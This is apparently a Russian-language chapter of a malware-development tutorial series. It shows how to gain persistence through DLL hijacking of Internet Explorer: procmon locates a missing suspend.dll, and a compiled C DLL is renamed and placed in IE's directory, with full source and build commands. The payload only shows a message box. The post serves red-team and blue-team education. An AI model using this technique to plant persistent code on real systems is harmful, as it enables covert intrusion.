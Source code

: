 \newpage
\subsection{81. разработка вредоносного ПО: закрепление (persistence) - часть 15. Internet Explorer. Простой пример на C++.}

﷽


![pers](./images/75/2022-10-13_00-24_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков персистентности вредоносного ПО: через Internet Explorer.     

### internet explorer

В одном из моих [предыдущих постов](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) я писал о реальном примере DLL-подмены. На этот раз жертвой становится Internet Explorer. Конечно, многие из вас даже не используют его и вряд ли удаляли его намеренно из Windows.    

### практический пример

Как и в предыдущем посте, запустим [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) из sysinternals и установим следующие фильтры:    

![pers](./images/75/2022-10-13_00-03.png){width="80%"}    

Затем запустим `Internet Explorer`:     

![pers](./images/75/2022-10-13_00-04.png){width="80%"}    

![pers](./images/75/2022-10-13_00-04_1.png){width="80%"}    

Как видно, процесс `iexplore.exe` не находит несколько DLL, которые потенциально можно использовать для DLL-подмены. Например, `suspend.dll`:     

![pers](./images/75/2022-10-13_00-05.png){width="80%"}    

Давайте попробуем найти другие возможные местоположения, возможно, у нас есть легитимная версия этой DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](./images/75/2022-10-13_00-09.png){width="80%"}    

Но, как видно, файл не найден, значит, эта DLL используется только Internet Explorer.    

Затем я подготовил "вредоносную" DLL с сообщением `meow-woof`:    

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем нашу вредоносную DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](./images/75/2022-10-13_00-12.png){width="80%"}    

Затем переименовываем файл в `suspend.dll` и помещаем его в каталог, откуда загружается Internet Explorer:     

![pers](./images/75/2022-10-13_06-13.png){width="80%"}    

![pers](./images/75/2022-10-13_00-15.png){width="80%"}    

И, наконец, пробуем запустить наше целевое приложение:     

![pers](./images/75/2022-10-13_00-16_1.png){width="80%"}    

![pers](./images/75/2022-10-13_00-18.png){width="80%"}    

![pers](./images/75/2022-10-13_00-24.png){width="80%"}    

После закрытия всплывающего окна Internet Explorer продолжает работать, не завершается с ошибкой:    

![pers](./images/75/2022-10-13_00-16.png){width="80%"}    

Как можно видеть, все сработало. Идеально! =^..^=     

### заключение

Теперь мы добились персистентности через Internet Explorer.    

Именно поэтому этот пост относится к категории персистентности – наша вредоносная DLL будет запускаться каждый раз, когда пользователь открывает Internet Explorer. И также при его закрытии. Небольшой сюрприз для любителей Windows. Вам даже не нужно ничего устанавливать или удалять.    

Это также работает на `Windows 11 x64`:     

![pers](./images/75/2022-10-13_06-37.png){width="80%"}    

Хотя вряд ли кто-то запустит Internet Explorer в 2022 году, согласны?    

Как охотник за уязвимостями в Windows, если вы хотите найти уязвимости повышения привилегий в самой операционной системе, вам часто стоит начинать с чистого листа – с новой установки Windows.    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
